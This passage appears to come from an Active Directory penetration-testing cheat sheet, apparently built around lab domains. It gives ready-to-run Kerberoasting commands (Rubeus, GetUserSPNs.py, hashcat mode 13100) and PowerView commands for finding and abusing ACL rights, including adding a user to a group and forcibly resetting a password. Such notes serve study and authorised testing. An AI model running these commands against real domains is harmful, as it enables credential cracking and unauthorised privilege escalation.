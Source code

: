 * **Step 2: Request the TGS and Extract the Hash**
    ```shell
    # From Windows, using Rubeus
    .\Rubeus.exe kerberoast /nowrap
    ```
    ```shell
    # From Linux, requesting a ticket for a specific service user
    GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
    ```

* **Step 3: Crack the Hash**
    ```shell
    # The mode '13100' is for Kerberos 5, TGS-REP
    hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
    ```

### Access Control List (ACL) Abuse

Every object in AD has an Access Control List (ACL) that defines who can perform what actions on it. Misconfigured ACLs are a direct path to privilege escalation.

* **Finding Abusable ACLs**
    * **What it does:** Uses PowerView to automatically find common, dangerous permissions or to inspect the ACL of a specific high-value object like the "Domain Admins" group.
    * **When to use it:** After running BloodHound, use these commands to get a detailed, real-time view of permissions.
    * **Example Commands:**
        ```powershell
        # Find common misconfigurations across the whole domain
        Find-InterestingDomainAcl -ResolveGUIDs

        # Deep-dive on the Domain Admins group
        Get-ObjectAcl -Identity "Domain Admins" -ResolveGUIDs
        ```

* **Exploiting Common Abusable Rights**
    * `GenericAll` / `WriteMembers`: Allows you to add yourself to a privileged group.
        ```powershell
        Add-DomainGroupMember -Identity "Remote Desktop Users" -Members "forend"
        ```
    * `ForceChangePassword`: Allows you to reset a user's password without knowing the old one.
        ```powershell
        Set-DomainUserPassword -Identity 'some_privileged_user' -AccountPassword 'NewPassword123!'
        ```
    * `WriteDacl`: The "god mode" right. Allows you to modify an object's permissions. You can use it to grant yourself `GenericAll` or even DCSync rights.
